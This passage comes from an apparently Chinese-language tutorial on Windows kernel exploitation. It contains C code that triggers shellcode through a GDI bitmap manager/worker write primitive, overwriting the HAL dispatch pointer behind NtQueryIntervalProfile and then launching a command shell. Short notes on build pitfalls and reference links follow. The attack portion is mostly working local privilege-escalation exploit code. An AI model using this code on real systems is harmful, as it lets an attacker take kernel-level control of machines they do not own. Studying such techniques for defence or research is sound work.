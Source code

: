 **（五）触发ShellCode**

```
// 定义函数原型
typedef NTSTATUS(WINAPI* NtQueryIntervalProfile_t)(
    IN ULONG ProfileSource,
    OUT PULONG Interval
);
PVOID pOrg = 0;
    DWORD haladdr = GetHalOffset_4();
    PVOID oaddr = (PVOID)haladdr;
    PVOID sc = &amp;ShellCode;


//替换NtQueryIntervalProfile的地址为shellcode的地址
SetBitmapBits((HBITMAP)gManger, sizeof(PVOID), &amp;oaddr); //Use manager to set the modifiable address of worker as hal function
    printf("[+]The target address to be overwritten 0x%x\n", oaddr);
    GetBitmapBits((HBITMAP)gWorker, sizeof(PVOID), &amp;pOrg);//Get the address that can be modified
    SetBitmapBits((HBITMAP)gWorker, sizeof(PVOID), &amp;sc);//Set the address to shellcode
    printf("[+] Overwriting is complete, ready to execute Shellcode");



    // 调用NtQueryIntervalProfile，触发shellcode函数
    NtQueryIntervalProfile_t NtQueryIntervalProfile = (NtQueryIntervalProfile_t)GetProcAddress(LoadLibrary("ntdll.dll"), "NtQueryIntervalProfile");
    printf("[+]NtQueryIntervalProfile address is 0x%x\n", NtQueryIntervalProfile);
    DWORD interVal = 0;
    NtQueryIntervalProfile(0x1337, &amp;interVal);
    //恢复NtQueryIntervalProfile函数地址
SetBitmapBits((HBITMAP)gWorker, sizeof(PVOID), &amp;pOrg);
system("cmd");
```

[![](https://p2.ssl.qhimg.com/t015bd3928a3a4e4734.png)](https://p2.ssl.qhimg.com/t015bd3928a3a4e4734.png)



## 三、踩坑

（一）编译时，留意Visual Studio的MFC以及字符集设置，如果采用静态，则调用函数时，要留意末端是W（Unicode字符集）还是A（多字节字符集），所选用的函数必须与字符集相匹配，否则会出现正常编译运行，但没有效果的问题。

（二）计算偏移时，要留意内存对齐问题



## 四、参考链接

（一）[<u>https://www.freebuf.com/vuls/180227.html</u>](https://www.freebuf.com/vuls/180227.html)

（二）[<u>https://docs.microsoft.com/en-us/previous-versions/bb665982(v=msdn.10)</u>](https://docs.microsoft.com/en-us/previous-versions/bb665982(v=msdn.10))
